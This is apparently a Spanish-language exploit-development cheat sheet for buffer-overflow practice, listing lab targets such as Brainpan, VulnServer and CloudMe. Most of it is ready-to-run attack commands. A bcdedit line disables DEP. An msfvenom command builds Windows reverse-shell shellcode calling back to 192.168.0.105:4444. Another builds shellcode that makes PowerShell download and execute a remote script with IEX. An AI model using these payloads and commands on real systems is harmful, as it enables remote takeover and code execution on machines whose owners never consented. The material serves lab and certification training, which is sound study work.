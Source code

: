 
## Desactivar DEP
```
bcdedit.exe /set {current} nx AlwaysOff
```

## BYTEARRAY
```pip install badchars```
```badchars -f python```

## SHELLCODE
#### cmd
```msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```
#### Powershell
```msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```

#### Idioma teclado
ES Spanish (United States)

-------

Brainpan                      -> Windows 7, XP sp3
VulnSever                     -> Windows 7, XP sp3
EasyRMtoMP3Converter2.7.3.700 -> Windows XP sp3
CloudMe                       -> Windows 7
oscp THM                      -> Windows 7, XP sp3
SoritongMP3Player             -> Windows XP sp3
